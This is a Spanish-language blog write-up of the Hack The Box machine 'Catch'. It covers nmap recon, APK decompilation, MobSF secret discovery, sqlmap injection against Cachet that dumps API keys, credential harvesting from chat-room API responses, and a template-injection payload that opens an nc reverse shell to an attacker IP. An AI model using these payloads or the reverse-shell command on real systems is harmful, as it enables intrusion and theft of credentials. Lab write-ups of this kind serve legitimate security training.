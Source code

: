 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Catch              |
| Os                     | Linux              |
| Difficulty             | Medium             |
| Points                 | 30                 |
| IP                     | 10.10.11.150       |

## [](#header-2)Introduccion

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Catch/scan1.png)

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.11.150
```

![Nmap 1](/assets/images/Catch/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

![Nmap 2](/assets/images/Catch/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos.

![Nmap 3](/assets/images/Catch/nmap3.png)

Despues veremos mas sobre los servicios que corren en el puerto 80, 3000, 5000 y 8000 con whatweb.

![whatweb](/assets/images/Catch/whatweb.png)


![Landing page](/assets/images/Catch/landing_page.png)


Despues de que seguimos navegando por el servicio web, nos encontramos con un .apk, el cual lo descompilaremos con <a href="https://github.com/pxb1988/dex2jar.git">d2j-dex2jar.sh</a>. Una vez clonado y correr ./gradlew distZip , navegaremos a dex2jar/dex-tools/build/distributions/dex-tools-2.2-SNAPSHOT. El comando para ejecutar la aplicacion es:

```s
sh d2j-dex2jar.sh -f /home/rebick/Documents/HtB/Catch/name.apk
```

Buscando en el codigo fuente, encontramos un link dirigido a `https://status.catch.htb`, asi que agregaremos este dominio a nuestro `/etc/hosts`

![Function that call subdomain.](/assets/images/Catch/pointing_subdomain.png)

Ahora analizaremos el dominio con <a href="https://github.com/MobSF/Mobile-Security-Framework-MobSF">MobSF.</a>Con esta herramienta encontraremos tokens de mucha importancia y podremos explotarlos despues. Por ahora, solo nos enfocaremos en `https://status.catch.htb`. Primero hay que iniciar el servicio y visitarlo en el navegador.

```s
#Para iniciar la herramienta
sh ./run.sh
```

Una vez ejecutada la herramienta, abrimos el navegador y ponemos `http://localhost:8000/`, el dashboard nos pedira soltar el .apk ahi mismo e iniciara el analisis. Despues de que concluya, nos vamos a la parte de Analysis

![Secrets](/assets/images/Catch/secrets.png)

En este dominio se encontro que es usado el frame Cachet, la otra evidencia indica que hay vulnerabilidades de SQLI, y vulnerabilidades de ejecusion de comandos.
Usaremos sqlmap para detectar estas vulnerabilidades.

```s
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+"
```

![SQL Payload](/assets/images/Catch/SQLpayload.png)

Vamos por la webshell

```s
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms
```

Primero Obtenemos el json de Rooms.

```json
[{"id":"61b86b28d984e2451036eb17",
"slug":"status",
"name":"Status",
"description":"Cachet Updates and Maintenance",
"lastActive":"2021-12-14T10:34:20.749Z",
"created":"2021-12-14T10:00:08.384Z",
"owner":"61b86aead984e2451036eb16",
"private":false,
"hasPassword":false,
"participants":[]},
{"id":"61b8708efe190b466d476bfb",
"slug":"android_dev",
"name":"Android Development",
"description":"Android App Updates, Issues & More",
"lastActive":"2021-12-14T10:24:21.145Z",
"created":"2021-12-14T10:23:10.474Z",
"owner":"61b86aead984e2451036eb16",
"private":false,
"hasPassword":false,
"participants":[]},
{"id":"61b86b3fd984e2451036eb18",
"slug":"employees",
"name":"Employees",
"description":"New Joinees, Org updates",
"lastActive":"2021-12-14T10:18:04.710Z",
"created":"2021-12-14T10:00:31.043Z",
"owner":"61b86aead984e2451036eb16",
"private":false,
"hasPassword":false,
"participants":[]}]
```

Y ahora descargamos

```s
curl -H "Authorization: bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" -i   http://10.10.11.150:5000/rooms/61b86b28d984e2451036eb17/messages
```

En este response, obtuvimos la contrasena de john.

```json
[{"id":"61b8732cfe190b466d476c02",
"text":"ah sure!",
"posted":"2021-12-14T10:34:20.749Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b8731ffe190b466d476c01",
"text":"You should actually include this task to your list as well as a part of quarterly audit","posted":"2021-12-14T10:34:07.449Z",
"owner":"61b86aead984e2451036eb16",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b872b9fe190b466d476c00",
"text":"Also make sure we've our systems, applications and databases up-to-date.","posted":"2021-12-14T10:32:25.514Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87282fe190b466d476bff",
"text":"Excellent! ",
"posted":"2021-12-14T10:31:30.403Z",
"owner":"61b86aead984e2451036eb16",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87277fe190b466d476bfe",
"text":"Why not. We've this in our todo list for next quarter",
"posted":"2021-12-14T10:31:19.094Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87241fe190b466d476bfd",
"text":"@john is it possible to add SSL to our status domain to make sure everything is secure ? ",
"posted":"2021-12-14T10:30:25.108Z",
"owner":"61b86aead984e2451036eb16",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b8702dfe190b466d476bfa",
"text":"Here are the credentials `john :  E}V!mywu_69T4C}W`",
"posted":"2021-12-14T10:21:33.859Z",
"owner":"61b86f15fe190b466d476bf5",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b87010fe190b466d476bf9",
"text":"Sure one sec.",
"posted":"2021-12-14T10:21:04.635Z",
"owner":"61b86f15fe190b466d476bf5",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b86fb1fe190b466d476bf8",
"text":"Can you create an account for me ? ",
"posted":"2021-12-14T10:19:29.677Z",
"owner":"61b86dbdfe190b466d476bf0",
"room":"61b86b28d984e2451036eb17"},

{"id":"61b86f4dfe190b466d476bf6",
"text":"Hey Team! I'll be handling the `status.catch.htb` from now on. Lemme know if you need anything from me. ",
"posted":"2021-12-14T10:17:49.761Z",
"owner":"61b86f15fe190b466d476bf5",
"room":"61b86b28d984e2451036eb17"}] 
```

Encontramos la cuenta y contrasena `john : E}V!mywu_69T4C}W`. El apiKey de john fue encontrada por medio de SQLInjection.
Lo siguiente por hacer es 

```s
sqlmap -u "http://status.catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --dbms=mysql -D cachet -T users -C api_key,username --dump
```

Ahora podemos usar burpsuite para insertar el response de la siguiente forma:


![Burpsuite](/assets/images/Catch/burpsuite_john_response.png)

![SSLI](/assets/images/Catch/ssli.png)

En el SSLI pondremos {{["rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.29 8081 >/tmp/f"] | filter("system") | join(",")}} para establecer una reverse shell y ponernos en escucha por el puerto 443